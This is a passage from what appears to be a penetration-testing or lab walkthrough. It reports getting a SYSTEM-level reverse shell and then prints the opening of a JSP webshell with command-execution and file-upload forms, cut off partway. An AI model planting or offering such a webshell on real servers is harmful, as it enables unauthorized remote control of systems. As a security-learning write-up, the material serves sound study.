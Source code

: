 And we get the shell after a few seconds logged in as `nt authority\system` user.

<figure><img src="../.gitbook/assets/image (24).png" alt=""><figcaption><p>Reverse shell</p></figcaption></figure>

### Remote Code Execution and Web shell

We will use the following code to launch a jsp webshell on the server.&#x20;

```javascript
<%@page import="java.io.*, java.util.*, javax.xml.bind.*, java.net.*" %>
    <script>
        document.write("<p>");
        var html = "<form method=post action='cmd.jsp'>\
                        <input name='c' type=text><input type=submit value='Run'>\
                    </form><hr>\
                    <form action='cmd.jsp' method=post>\
                        Upload dir: <input name='a' type=text value='.'><br>\
                        Select a file to upload: <input name='n' type='file' id='f'>\
                        <input type='hidden' name='b' id='b'>\
                        <input type='submit' value='Upload'>\
                    </form><hr>";
        var div = document.createElement('div');
        div.innerHTML = html;
        document.body.insertBefore(div, document.body.firstChild);

        var handleFileSelect = function (evt) {
            var files = evt.target.files;
            var file = files[0];

            if (files && file) {
                var reader = new FileReader();

                reader.onload = function (readerEvt) {
                    var binaryString = readerEvt.target.result;
                    document.getElementById('b').value = btoa(binaryString);
                };

                reader.readAsBinaryString(file);
```